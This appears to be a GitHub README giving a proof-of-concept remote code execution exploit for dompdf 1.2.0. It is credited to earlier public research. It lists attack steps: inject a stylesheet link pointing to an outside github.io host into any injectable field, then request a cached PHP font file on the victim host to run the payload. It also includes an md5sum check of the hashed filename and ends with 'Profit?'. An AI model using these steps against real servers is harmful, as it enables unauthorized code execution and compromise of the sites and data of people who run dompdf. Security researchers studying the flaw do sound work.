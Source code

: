 # Live RCE POC for dompdf 1.2.0

1. Use the following <link> tag in any injectable field: 
   - `<link rel=stylesheet href='https://abhishekg999.github.io/dompdf/exploit.css'>`
2. Navigate to `http://[VICTIM_HOST]/dompdf/lib/fonts/exploitfont_normal_de7ec71473780093df11e62fab83211f.php`
3. Profit?


The hash should be correct, you can verify the hash yourself:
```console
user@console:~$ echo -n [PHP_PAYLOAD_URL_AT_IT_IS_IN_THE_CSS_FILE] | md5sum
de7ec71473780093df11e62fab83211f  -
```


---

Based off https://github.com/positive-security/dompdf-rce
